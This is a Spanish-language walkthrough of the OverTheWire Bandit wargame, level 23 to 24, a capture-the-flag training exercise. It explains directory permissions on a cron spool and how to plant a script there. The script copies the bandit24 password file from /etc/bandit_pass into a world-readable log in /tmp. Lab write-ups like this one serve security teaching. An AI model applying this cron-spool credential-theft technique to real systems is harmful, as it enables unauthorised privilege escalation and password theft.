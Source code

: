 ## `bandit23@bandit:~$ ls -ld /var/spool/bandit24`

# {Salida típica}

## `drwxrwx-wx 60 root bandit24 ... /var/spool/bandit24`

## {Desglose}

- **otros (o)** tienen **wx** (escritura y entrar), pero **no r** (no se puede listar).
    

## 💬{Comentario del profe}  

No puedes **listar** el contenido, pero **sí puedes copiar** archivos ahí **si conoces la ruta**. Perfecto para “plantar” un script.

---
### 4. Crear un script malicioso en `/tmp`


Creamos un directorio temporal y un archivo `script.sh`:

##### `bandit23@bandit:/tmp$ mktemp -d /tmp/tmp.6MAVYlvV0s cd /tmp/tmp.6MAVYlvV0s nano script.sh`

Contenido del `script.sh`:
![Bandit Image](../../Imagenes/level-23-24-9.png)

`#!/bin/bash 
`cat /etc/bandit_pass/bandit24 > /tmp/tmp.6MAVYlvV0s/bandit24_password.log
`chmod o+r /tmp/tmp.6MAVYlvV0s/bandit24_password.log`

## 💬 **Comentario**: 

Nuestro script copiará la contraseña de bandit24 a un archivo accesible para nosotros.


---

### 5. Dar permisos de ejecución

## `chmod +x script.sh`

---